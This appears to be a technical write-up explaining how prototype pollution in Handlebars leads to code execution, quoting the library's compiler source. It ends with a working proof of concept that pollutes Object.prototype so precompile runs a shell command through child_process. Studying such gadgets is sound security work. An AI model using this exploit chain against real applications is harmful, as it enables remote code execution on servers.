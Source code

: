 First, look at the compile function, and it supports two ways of input, AST Object and template string.

when input.type is a `Program`, although the input value is actually string.\
Parser considers it’s already AST parsed by parser.js and send it to the compiler without any processing.

```javascript
<!-- /node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js -->

...
accept: function accept(node) {
    /* istanbul ignore next: Sanity code */
    if (!this[node.type]) {
        throw new _exception2['default']('Unknown type: ' + node.type, node);
    }

    this.sourceNode.unshift(node);
    var ret = this[node.type](node);
    this.sourceNode.shift();
    return ret;
},
Program: function Program(program) {
    console.log((new Error).stack)
    this.options.blockParams.unshift(program.blockParams);

    var body = program.body,
        bodyLength = body.length;
    for (var i = 0; i < bodyLength; i++) {
        this.accept(body[i]);
    }

    this.options.blockParams.shift();

    this.isSimple = bodyLength === 1;
    this.blockParams = program.blockParams ? program.blockParams.length : 0;

    return this;
}
```

The compiler given the AST Object (actually a string) send it to the `accept` method.\
and `accept` calls `this[node.type]` of Compiler.\
Then take body attribute of AST and use it for constructing function.

```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];


const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);
```